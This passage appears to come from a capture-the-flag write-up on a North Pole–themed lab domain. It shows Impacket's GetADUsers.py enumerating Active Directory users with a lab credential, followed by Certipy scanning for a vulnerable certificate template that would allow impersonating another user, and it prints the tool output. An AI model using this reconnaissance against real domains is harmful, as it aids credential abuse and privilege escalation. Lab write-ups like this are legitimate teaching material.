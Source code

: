 Let's unumerate some users and see what we have

```bash
alabaster@ssh-server-vm:~/impacket$ GetADUsers.py northpole.local/elfy:'J4`ufC49/J4766' -dc-ip 10.0.0.53 -all
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Querying 10.0.0.53 for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
alabaster                                             2024-01-06 01:03:31.339134  2024-01-06 01:20:28.010560 
Guest                                                 <never>              <never>             
krbtgt                                                2024-01-06 01:10:42.425972  <never>             
elfy                                                  2024-01-06 01:12:47.319022  2024-01-06 04:45:11.082839 
wombleycube                                           2024-01-06 01:12:47.444032  2024-01-06 04:51:15.366356 
```
They did mention that Wombley's research department was using the same environment here, and knowing we have a vulnerable certificate template, we can use Certipy to check and see if we can impersonate Wombley.

```
alabaster@ssh-server-vm:~/impacket$ certipy find -vulnerable -dc-ip 10.0.0.53 -target-ip 10.0.0.53 -u elfy -p 'J4`ufC49/J4766'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'northpole-npdc01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'northpole-npdc01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'northpole-npdc01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'northpole-npdc01-CA'
[*] Saved BloodHound data to '20240106044521_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20240106044521_Certipy.txt'
[*] Saved JSON output to '20240106044521_Certipy.json'

alabaster@ssh-server-vm:~/impacket$ cat 20240106044521_Certipy.txt
Certificate Authorities
  0
    CA Name                             : northpole-npdc01-CA
    DNS Name                            : npdc01.northpole.local
    Certificate Subject                 : CN=northpole-npdc01-CA, DC=northpole, DC=local
    Certificate Serial Number           : 1D021F0D85341EB2421ED85829DB0930
    Certificate Validity Start          : 2024-01-06 01:05:36+00:00
    Certificate Validity End            : 2029-01-06 01:15:35+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : NORTHPOLE.LOCAL\Administrators
      Access Rights
        ManageCertificates              : NORTHPOLE.LOCAL\Administrators
                                          NORTHPOLE.LOCAL\Domain Admins
                                          NORTHPOLE.LOCAL\Enterprise Admins
        ManageCa                        : NORTHPOLE.LOCAL\Administrators
```